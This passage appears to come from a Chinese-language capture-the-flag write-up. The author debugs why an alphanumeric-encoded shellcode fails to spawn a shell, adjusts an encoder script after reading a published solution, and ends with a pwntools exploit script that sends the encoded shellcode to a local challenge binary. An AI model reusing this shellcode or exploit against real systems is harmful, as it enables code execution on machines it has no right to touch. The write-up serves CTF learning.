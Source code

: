 ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610614002426-3708099c-9eff-42d2-aa4e-1f40471d6707.png)

？？？我shell呢？附加gdb调试进入call rax中看一下，下个断点：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610614086058-eabe1bb2-5485-45bd-838a-fc881355b8e7.png)（因为开启了PIE才使用rebase下断点）

终端输入c，然后单步进入（si）call：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610614373078-e3f121cd-7b64-4357-a788-6a24d23aff35.png)

emmm。。。没发现有什么不对，看一下github上的wp：

> [https://github.com/ustclug/hackergame2019-writeups/tree/master/players/%E5%92%95%E5%92%95%E5%92%95](https://github.com/ustclug/hackergame2019-writeups/tree/master/players/%E5%92%95%E5%92%95%E5%92%95)
>

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610614565368-3693780f-8217-4e28-9869-13d114d9117f.png)

修改一下工具中的encoder.py：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610614648074-95d70000-9127-405d-ace3-9f9bde15e1b2.png)

加个2，保存再次重复上述步骤：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610614734318-23bf36d7-cb82-447f-9ef3-5f57460575b7.png)

> PZTAYAXVI31VXPP[_Hc4:14:SX-i+lr-!&Xp5>%?/P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-9OOd-Q_  5>^??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-W`h)-H   5Sw??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-QZ##-|@ @57_?[P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-i+Fr-\  ^537_?P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-  uI-!@` 5:__~P^14:WX-_^/?-=apD-`@`|P_SX-@q`L- 0`x5:_?;P_Hc4:14:SX-IA00- %  5h{??P^14:WX-_^/?-=apD-`@`|P_SX-?iCI- p?w5?'}?P^SX-_b`P-b^`p5'???P_AAAA!39(.d@;*ez0&!4n_7lrt4n@1*}~w<?}X9.543}ng$h.j7g4w_iZ?%oQGq|{"7W%78w?s!|N8~?DB#*MA<z$3[P.f0R*z7!|
>

改一下payload：

```python
from pwn import *
context.log_level='debug'

p=process('./chall3') 
gdb.attach(p)
payload='''PZTAYAXVI31VXPP[_Hc4:14:SX-i+lr-!&Xp5>%?/P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-9OOd-Q_  5>^??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-W`h)-H   5Sw??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-QZ##-|@ @57_?[P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-i+Fr-\  ^537_?P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-  uI-!@` 5:__~P^14:WX-_^/?-=apD-`@`|P_SX-"A`B-#`@~5#__?P_Hc4:14:SX- A $-3   5R|/+P^14:WX-_^/?-=apD-`@`|P_SX-@Ebi- \`Y5<_==P^SX-_A1"-q@_~5(~o_P_AAAA!39(.d@;*ez0&!4n_7lrt4n@1*}~w<?}X9.543}ng$h.j7g4w_iZ?%oQGq|{"7W%78w?s!|N8~?DB#*MA<z$3[P.f0R*z7!|'''
payload1='''PZTAYAXVI31VXPP[_Hc4:14:SX-i+lr-!&Xp5>%?/P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-9OOd-Q_  5>^??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-W`h)-H   5Sw??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-QZ##-|@ @57_?[P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-i+Fr-\  ^537_?P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-  uI-!@` 5:__~P^14:WX-_^/?-=apD-`@`|P_SX-@q`L- 0`x5:_?;P_Hc4:14:SX-IA00- %  5h{??P^14:WX-_^/?-=apD-`@`|P_SX-?iCI- p?w5?'}?P^SX-_b`P-b^`p5'???P_AAAA!39(.d@;*ez0&!4n_7lrt4n@1*}~w<?}X9.543}ng$h.j7g4w_iZ?%oQGq|{"7W%78w?s!|N8~?DB#*MA<z$3[P.f0R*z7!|'''
p.send(payload1)
p.interactive()
```

